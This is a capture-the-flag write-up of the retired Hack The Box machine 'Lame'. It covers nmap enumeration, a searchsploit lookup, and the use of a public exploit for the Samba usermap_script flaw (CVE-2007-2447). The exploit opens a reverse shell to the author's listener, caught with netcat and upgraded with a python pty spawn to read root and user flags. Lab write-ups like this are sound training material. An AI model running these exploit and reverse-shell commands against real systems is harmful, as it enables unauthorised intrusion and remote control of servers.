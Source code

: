 ```yaml
---
title: "Lame HTB Writeup"
date: 2021-04-03T20:51:59+02:00
draft: false
Tags: [
    "Writeups",
    "hackthebox",
    "retired",

]
---
```

![Machine info](/images/lame/1.png)

This machine is very easy and straight forward using public exploit and then you get root access directly.
These machine from retired machines on hackthebox and you need a vip subscribtion to access them. enjoy..

### 1. Enumeration:
* Nmap scan:
``nmap -sC -sV 10.10.10.3 -Pn`` or ``sudo nmap -sV -O -F --version-light 10.10.10.3``
![](/images/lame/2.png)

now we know the open ports and running services on them:
* 21 >> ftp
* 22 >> ssh
* 139 >> samba
* 445 >> samba

### FTP Enumeration:
* let's try loging into ftp using anonymous and empty password just press enter.
* login successful but i found nothing in there.
![](/images/lame/3.png)

### searching for samba exploits locally:
* ``searchsploit samba 3.0.20``
![](/images/lame/4.png)

found exploit for this version of samba that leads to RCE

let's look at it and know it's cve number to get it online and not using it with metasploit.

``nano /usr/share/exploitdb/exploits/unix/remote/16320.rb``
![](/images/lame/5.png)

* cve number >> 2007-2447
  * let's search it in google
found this github python [exploit](https://github.com/amriunix/CVE-2007-2447):
![](/images/lame/6.png)

let's install it and its dependencies:
![](/images/lame/7.png)
![](/images/lame/8.png)

* usage:
![](/images/lame/9.png)

* Exploitation:
  * ``python3 usermap_script.py 10.10.10.3 445 10.10.16.157 9001``
![](/images/lame/10.png)

  * open netcat on port 9001:
```yml
nc -lvnp 9001

//getting responsive shell:
python -c 'import pty; pty.spawn("/bin/sh")'

id

//getting root flag:
cd /root
cat root.txt

find /home user.txt
cat /home/makis/user.txt
```
![](/images/lame/11.png)

![](/images/lame/12.png)

* getting user flag:
```yml
find /home user.txt
cat /home/makis/user.txt
```
 
![](/images/lame/13.png)

And that's it, hope you enjoyed..

if so kindly give me respect [Wh1rlw1nd-HTB](https://www.hackthebox.eu/home/users/profile/182588).